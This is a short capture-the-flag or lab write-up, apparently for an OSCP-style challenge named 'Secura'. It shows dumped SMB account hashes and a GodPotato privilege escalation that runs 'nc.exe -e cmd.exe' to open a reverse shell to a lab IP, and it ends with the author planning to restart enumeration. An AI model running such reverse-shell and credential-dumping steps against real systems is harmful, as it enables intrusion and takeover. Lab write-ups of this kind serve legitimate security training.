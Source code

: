 # Challenge 0 - Secura

### VM 3

While our scan is running we can look at some interesting informations:

<figure><img src="../../../.gitbook/assets/image (241).png" alt=""><figcaption></figcaption></figure>

Off the bat we can get some hashes:

<figure><img src="../../../.gitbook/assets/image (242).png" alt=""><figcaption></figcaption></figure>

```
SMB         192.168.212.95  445    SECURE           Administrator:500:aad3b435b51404eeaad3b435b51404ee:a51493b0b06e5e35f855245e71af1d14:::
SMB         192.168.212.95  445    SECURE           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.212.95  445    SECURE           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.212.95  445    SECURE           WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:11ba4cb6993d434d8dbba9ba45fd9011:::
```

I can't winrm in the instance with admin hash:

<figure><img src="../../../.gitbook/assets/image (243).png" alt=""><figcaption></figcaption></figure>

But no worry, Log in as eric and see his permissions:

<figure><img src="../../../.gitbook/assets/image (244).png" alt=""><figcaption></figcaption></figure>

I'll transfer GodPotato to a Temp file to get my reverse shell:

<figure><img src="../../../.gitbook/assets/image (245).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
I just saw that i could already get the proof.txt, trash box but i'll do privesc
{% endhint %}

so i transfer potato and nc.exe to the target machine and launch the following:

```
./potato.exe -cmd "nc.exe -e cmd.exe 192.168.45.172 4040"
```

<figure><img src="../../../.gitbook/assets/image (246).png" alt=""><figcaption></figcaption></figure>

and we get our shell

### VM 2

I start off by enumerating open ports:

<figure><img src="../../../.gitbook/assets/image (248).png" alt=""><figcaption></figcaption></figure>

Nothing seems up on the http ports and the creds of eric still work:

<figure><img src="../../../.gitbook/assets/image (249).png" alt=""><figcaption></figcaption></figure>

Ok i understood the exercise wrong, it's not 3 machines different, it's a network i have to breach and use each machines to get access to another one so i'll come back tomorrow and restart my enumeration for the first machine with creds
